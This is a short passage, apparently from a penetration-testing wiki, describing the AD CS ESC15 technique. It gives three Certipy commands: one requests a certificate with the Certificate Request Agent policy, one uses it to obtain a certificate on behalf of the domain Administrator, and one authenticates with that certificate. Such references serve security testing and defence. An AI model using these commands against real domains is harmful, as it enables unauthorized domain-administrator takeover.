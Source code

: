 You can see the ESC15 as an ESC2 with more steps.
=== "UNIX-like"
    From UNIX-like systems, Certipy (Python) can be used to enumerate for, and conduct, the ESC15 scenario.
    ```bash
    # Request a certificate with "Certificate Request Agent" application policy
    certipy req -u $USER@$DOMAIN --application-policies "1.3.6.1.4.1.311.20.2.1" -ca $CA_NAME -template $TEMPLATE -dc-ip $DC_IP

    # Use the certificate in a ESC3 scenario to ask for a new certificate on behalf of another user
    certipy req -u $USER@$DOMAIN -on-behalf-of $DOMAIN\\Administrator -template User -ca $CA_NAME -pfx cert.pfx -dc-ip $DC_IP

    # Authenticate with the last certificate
    certipy auth -pfx administrator.pfx -dc-ip $DC_ADDR
    ```